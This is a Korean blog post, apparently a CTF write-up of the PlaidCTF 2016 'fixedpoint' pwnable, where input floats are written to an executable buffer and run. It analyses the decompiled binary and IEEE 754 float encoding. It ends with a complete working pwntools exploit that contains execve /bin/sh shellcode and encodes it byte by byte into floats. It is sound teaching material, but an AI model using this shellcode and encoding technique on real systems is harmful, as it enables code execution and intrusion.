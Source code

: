 ```yaml
---
layout: post
title: "PCTF 2016 - fixedpoint"
date: 2017-11-17 +1143
categories: [ctf, pwn]
tags: [ctf, pwn, exploit]
---
```


## I. 바이너리 분석
  이번에도 재미있는 CTF문제를 하나 들고왔다. 사실 이번 문제는 그렇게 공격이 어려운 문제는 아니었는데, 쉽게 Floating 데이터가 어떻게 관리가 되는지, 그리고 ShellCode를 만들줄 아는지에 대한 문제였다.<br />
  일단, Hex-Ray로 디컴파일을 한 결과는 다음과 같다.<br />
  <br />
  ```C
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
  signed int v4; // [sp+24h] [bp-Ch]@2
  signed int i; // [sp+28h] [bp-8h]@1
  int (*v6)(void); // [sp+2Ch] [bp-4h]@1

  v6 = (int (*)(void))mmap(0, 0x8000u, 7, 34, -1, 0);
  for ( i = 0; i <= 0x1FFF && __isoc99_scanf((const char *)&unk_80485F0, &v4); ++i )
    *((float *)v6 + i) = (long double)v4 / 1337.0;
  write(1, "here we go\n", 0xBu);
  return v6();
  }
  ```
  소스코드가 매우 짧다.<br />
  미리 이야기를 하지만 포너블이나 익스플로잇 관련된 기술에 접근할 때는, 해당 프로그램 또는 소스코드가 무슨 역할을 하는 녀석인지 확실하게 알고 진행해야한다.<br />
  이 코드는 mmap으로 0x8000만큼의 사이즈를 가지는 메모리 영역을 rwx 모든 권한을 할당한 채로 새로 매핑한다는 뜻이다.<br />
  그렇게 새로 매핑된 주소는 v6라는 변수 안에 들어간다. 이 v6 변수는 함수 포인터로 사용이 되는데, 우리가 입력한 정수 값이 1337.0과 나눠진 결과를 float 데이터로 4바이트씩 저장한다.<br />
  그리고 마지막에 해당 주소를 call함으로써 우리가 생성한 쉘코드를 실행한다.<br />
  <br />
  비슷한 문제가 사실 DEFCON CTF 2017 예선때도 하나 나왔었는데, 그 당시에는 나는 파이썬에서 그런게 가능한줄도 모르고 직접 손으로 계산해서 쉘코드를 만들었었다.<br />
  일단, 우리는 대학 컴퓨터 프로그래밍 시간에도 배웠겠지만 floating pointer는 지수영역과 가수영역이 따로 나뉘어져 연산되고 관리된다는 것을 알고 있다.<br /><br />
  <img src="http://www.c-jump.com/bcc/common/Talk2/Cxx/IEEE_754_fp_standard/const_images/ieee.gif" />
  <br />
  <br />
  그렇기 때문에 사실상 직접 계산해서 쉘코드를 만드는 것은 많이 복잡한편이다.<br />
  그래서 나는 Python의 struct모듈을 활용했는데, 이전까지는 Long, Integer 형태의 데이터만 pack, unpack하기 위해서 사용했었는데 이번에는 처음으로 Floating 옵션을 사용하게 되었다.<br />
  예를 들어서 위에 있는 1337을 나누는 코드를 내가 원하는 값이 나오게 만들려면 어떤 값을 넣어야할지 찾을 때, 다음과 같은 코드를 사용할 수 있다.<br />
  ```Python
  #!/usr/bin/python
  import struct
  from pwn import *

  pf32 = lambda x: struct.pack("<f", x)
  uf32 = lambda x: struct.unpack("<f", x)[0]
  pl32 = lambda x: struct.pack("<L", x)
  ul32 = lambda x: struct.unpack("<L", x)[0]

  ...
  deadbeef = ul32(pl32(uf32("\x41\x41\x41\x41") * 1337))
  ...
  ```
  이 코드의 실행결과는 다음과 같다.
  <br />16148<br />
  이를 fixedpoint 바이너리 안에 넣어서 확인해보면 다음과 같은 결과를 볼 수 있다.

  <br />
  ```Assembly
  (gdb) x/10wx $eip
  0xf7fcd000:	0x41413e9d	0x00000000	0x00000000	0x00000000
  0xf7fcd010:	0x00000000	0x00000000	0x00000000	0x00000000
  0xf7fcd020:	0x00000000	0x00000000
  (gdb) 
  ```
  이는 연산이 잘못된 것이 아니라, 상위 바이트는 우리가 표현할 수 있는 영역에 한계점이 있기 때문에 발생하는 오차이다.<br />
  이 때문에 우리는 조금 더 안정적인 쉘코드를 작성하려면, 적어도 상위 바이트는 임의로 변하지 않는 값을 넣어주어야 한다.<br />
  즉, 데이터 타입의 영향을 받지 않는 녀석을 선정해야한다.<br />


  ## II. Exploit
  ```Python
#!/usr/bin/python
import struct
from pwn import *

pf32 = lambda x: struct.pack("<f", x)
uf32 = lambda x: struct.unpack("<f", x)[0]
pl32 = lambda x: struct.pack("<L", x)
ul32 = lambda x: struct.unpack("<L", x)[0]

p = process("./fixedpoint")
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
gadget = asm("inc esi")
make_sh = []

print "[*] Disassemble Shellcode"
print "==================================================="
print disasm(shellcode)
print "===================================================\n\n"

make_sh.append(asm('mov edi, esp'))		# Stack Pointer Moved
make_sh.append(asm('mov al, 0x2f'))		# '/'
make_sh.append(asm('mov [edi], al'))		# mov [edi], al
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x62'))		# 'b'
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x69'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x6e'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x2f'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x73'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x68'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('xor eax, eax'))
make_sh.append(asm('mov [edi], al'))

make_sh.append(asm('mov ebx, esp'))
make_sh.append(asm('push eax'))
make_sh.append(asm('push ebx'))
make_sh.append(asm('mov ecx, esp'))
make_sh.append(asm('mov al, 0xb'))
make_sh.append(asm('xor edx, edx'))
make_sh.append(asm('int 0x80'))

shell = ''.join(x for x in make_sh)
print "Final Shellcode"
print "==========================================="
print disasm(shell)
print "==========================================="

for data in make_sh:
	payload = data
	payload = payload.ljust(0x3, gadget)
	payload = payload.rjust(0x4, gadget)
	floating = ul32(pl32(uf32(payload) * 1337))
	p.sendline(str(floating))

p.sendline("Get Shell!!")
print p.recvuntil("go")

p.interactive()
  ```